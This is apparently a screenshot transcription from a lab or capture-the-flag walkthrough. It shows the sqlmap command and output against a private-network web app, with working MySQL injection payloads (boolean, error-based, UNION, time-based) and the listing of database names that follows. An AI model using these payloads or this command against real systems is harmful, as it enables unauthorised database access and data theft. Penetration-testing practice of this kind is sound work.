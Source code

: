```text
# sqlmap --url 'http://192.168.107.135/kzMb5nVYJw/420search.php?usrtosearch=ramses' --risk=2 --dbms=MySQL --level=2 --dbs
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150731}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 23:16:20

[23:16:20] [INFO] testing connection to the target URL
[23:16:20] [INFO] testing if the target URL is stable. This can take a couple of seconds
[23:16:21] [INFO] target URL is stable
[23:16:21] [INFO] testing if GET parameter 'usrtosearch' is dynamic
[23:16:21] [INFO] confirming that GET parameter 'usrtosearch' is dynamic
[23:16:21] [INFO] GET parameter 'usrtosearch' is dynamic
[23:16:21] [INFO] heuristic (basic) test shows that GET parameter 'usrtosearch' might be injectable (possible DBMS: 'MySQL')
.
.
.
sqlmap identified the following injection points with a total of 64 HTTP(s) requests:
---
Parameter: usrtosearch (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: usrtosearch=ramses" AND 2672=2672#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: usrtosearch=ramses" AND (SELECT 6198 FROM(SELECT COUNT(*),CONCAT(0x7178766b71,(SELECT (CASE WHEN (6198=6198) THEN 1 ELSE 0 END)),0x7162767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND "lSdU"="lSdU

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: usrtosearch=ramses" UNION ALL SELECT CONCAT(0x7178766b71,0x6d69594f6768697a614b,0x7162767171),NULL,NULL#

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind (SELECT)
    Payload: usrtosearch=ramses" AND (SELECT * FROM (SELECT(SLEEP(5)))WqJu) AND "TIaN"="TIaN
---
[23:17:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.10
back-end DBMS: MySQL 5.0
[23:17:05] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] seth

[23:17:05] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.107.135'

[*] shutting down at 23:17:05
```